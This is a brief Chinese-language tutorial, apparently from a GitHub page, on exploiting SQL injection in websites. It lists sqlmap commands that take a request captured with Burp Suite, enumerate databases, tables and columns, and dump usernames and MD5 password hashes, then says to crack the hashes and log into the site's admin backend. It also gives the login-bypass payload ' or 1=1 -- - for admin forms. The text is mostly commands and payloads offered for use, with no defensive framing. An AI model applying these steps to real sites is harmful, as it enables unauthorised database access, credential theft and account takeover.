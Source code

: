 ## sqlmap工具的利用

### 利用sqlmap工具进行SQLI

找到某个可以发起数据库请求页面，并确定该页面可以SQLI后，可以先用burpsuite抓 个request包

然后把包里的内容保存到文本里，例如SQLI.txt

```
sudo sqlmap -r SQLI.txt --dbs　　发送request，执行注入
sudo sqlmap -r SQLI.txt --current-db　　查看当前所在的数据库名称
sudo sqlmap -r SQLI.txt -D 'current db' --tables　　查看当前数据中的table
sudo sqlmap -r SQLI.txt -D 'current db' -T 'choose tab' --columns　　选择当前数据库中的table并查看column
sudo sqlmap -r SQLI.txt -D 'current db' -T 'choose tab' -C 'choose col1,choose col2' --dump　　选择想要查看的column并显示出来
```
一番操作后便可以得到用户名及由md5加密的密码
将密码解密后便可以用其登录网站管理后台了

### 简单的SQL注入
在一些admin登录界面可以试试，like this：

![3082583-20230324103610507-285421580](https://github.com/user-attachments/assets/cea2ca99-688c-431d-8489-d69f467d97cd)

```
输入：
Username:admin
Password:' or 1=1 -- -
```
即可登录
